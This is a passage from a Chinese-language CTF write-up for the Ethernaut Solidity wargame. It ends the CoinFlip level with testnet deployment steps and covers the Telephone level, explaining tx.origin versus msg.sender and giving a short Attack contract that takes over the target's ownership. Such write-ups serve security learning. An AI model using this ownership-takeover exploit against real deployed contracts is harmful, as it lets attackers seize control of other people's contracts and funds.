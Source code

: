 使用 http://remix.ethereum.org 部署到 Rinkeby测试网络上

连续hack十次即可，不过可能会失败，因为判断了revert()，需要不同区块hash，即一个区块只能执行一次

以太坊大约15秒生成一个区块

```js
await contract.address
//查看实例地址，在部署exp的时候需要输入这个地址
await contract.consecutiveWins()
//查看猜中次数
```



## Telephone

目标获取合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

`msg.sender`是函数的直接调用方，在用户手动调用该函数时是发起交易的账户地址，但也可以是调用该函数的一个智能合约的地址。

 `tx.origin` 是这个交易的原始发起方，无论中间有多少次合约内/跨合约函数调用，而且一定是账户地址而不是合约地址。

假设一种情况，账户A通过合约B调用合约C，账户 A -> 合约 B -> 合约 C 

- 对于合约B来说，`tx.origin` 和 `msg.sender` 都是账户A
- 对于合约C来说，`tx.origin` 是账户 A，`msg.sender` 是合约 B

因此这里部署一个第三方合约就行

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Telephone {
  function changeOwner(address _owner) external ;
}

contract Attack {
    Telephone tel;
    constructor(address aimAddr) public {
        tel = Telephone(aimAddr);
    }

    function hack() public {
        tel.changeOwner(msg.sender);
    }
}
```
